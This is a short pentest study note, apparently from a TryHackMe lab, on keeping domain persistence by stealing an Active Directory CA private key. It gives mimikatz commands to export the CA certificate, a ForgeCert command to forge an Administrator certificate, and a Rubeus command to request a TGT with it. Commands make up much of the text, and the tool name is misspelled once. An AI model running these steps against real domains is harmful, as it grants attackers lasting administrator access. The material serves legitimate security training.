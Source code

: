 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#mimikatz #rubeus 
- We can use certificates to maintain persistence
- Valid certificate can be used for client authentication to get TGT.
- To prevent this form persistence, blue team needs to revoke the certificate. This is the only way to defend.
# Exploitation
- We need to get the private key of the root CA's certificate, after which we can create our own certificate.
- Usually the key is protected by the HSM (Hardware Security Module).
- If HSM is not used, [DPAPI](../../Windows/Windows%20Internals/Uncategorized/DPAPI.md) is used. In such case we can use mimikatz and other tools.
- List certificates stored on the Domain Controller using mimikatz
```powershell
crypto::certificates /systemstore:local_machine
```
- Patching to make the private key exportable
```powershell
privilege::debug
crypto::capi
crypto::cng
```
- Exporting the certificates now
```powershell
crypto::certificates /systemstore:local_machine
# this will export the certificate in .der and .pfx format
# password for these CA cert is "mimikatz"
```
- Now we can sign our own certificate using the `ForgeCert.exe` tool.
```powershell
.\ForceCert.exe --CaCertPath ca-cert.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Passw0rd123
```
- The new certificate can be used to ask for a TGT from the domain controller
```powershell
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:fullAdmin.pfx /password:Passw0rd123 /outfile:tgt.kirbi /domain:za.tryhackme.loc /dc:10.10.10.10
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
